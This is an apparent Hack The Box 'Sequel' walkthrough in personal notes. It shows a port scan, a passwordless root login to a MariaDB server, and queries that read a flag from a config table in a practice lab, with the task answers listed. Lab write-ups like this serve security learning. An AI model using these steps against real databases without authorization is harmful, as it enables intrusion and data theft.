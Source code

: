 - - - 
created : 30-07-2025 

Tags : #veryeasy
- - - 
# Objective

Learn how to start.
# CONNECT

To attack the target machine, you must be on the same network.  
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.  
If you don't see an update after 2-3 minutes, refresh the page.

I will use OpenVPN, so i download the config file, go in the same directory and execute the following command :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB]
└─$ sudo openvpn starting_point_mdn0x.ovpn 
[sudo] password di mdn0x: 
```

We can start our [Vulnerable Machine](../../../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md).

Now we add the target IP to our /etc/hosts file, so we don't have to remember the [IP address](../../../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) every time :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Meow]
└─$ sudo nano /etc/hosts
```

We add a line with the given IP and a name, watch previous rooms for more details.
# Task 1

During our scan, which port do we find serving MySQL?
## Rustscan/Nmap

We can use [Rustscan](../../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Sequel]
└─$ rustscan -a sequel.htb 

Open 10.129.95.232:3306

3306/tcp open  mysql?  syn-ack ttl 63
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 109
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, InteractiveClient, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsTransactions, SupportsCompression, FoundRows, Speaks41ProtocolOld, Speaks41ProtocolNew, Support41Auth, IgnoreSigpipes, ConnectWithDatabase, LongColumnFlag, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 4|8@vT!Ds;fq'hYdlpp_
|_  Auth Plugin Name: mysql_native_password
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port


```

The answer is pretty clear here
# Task 2

What community-developed MySQL version is the target running?

```bash
 MariaDB 
```
# Task 3

When using the MySQL command line client, what switch do we need to use in order to specify a login username?

```bash
 -u
```
# Task 4

Which username allows us to log into this MariaDB instance without providing a password?

```bash
  root
```
# Task 5

In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?

```bash
 *
```
# Task 6

In SQL, what symbol do we need to end each query with?

```bash
 ;
```
# Task 7

There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?

We enter the DB with the following commands :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Sequel]
└─$ mysql -u root -h 10.129.95.232
```

When I try to connect to a server using mysql cli commands, I get the error `ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it` .

> This can be solved by adding the `--skip_ssl` parameter.

If you don't want to type `--skip-ssl` on the command line every time, you can instead add this to `${HOME}/.my.cnf`:

```sql
[client]
skip-ssl = true
```

Let's try :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Sequel]
└─$ mysql -u root -h sequel.htb --skip-ssl
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 37
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,285 sec)
```

Obviously the answer is `htb` 
# Submit Flag

Submit root flag

To retrieve that we look into databases with the following commands :

```bash

MariaDB [(none)]> use htb
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0,304 sec)


MariaDB [htb]> SELECT * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  |  {{REDACTED_FLAG}} |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0,070 sec)

```
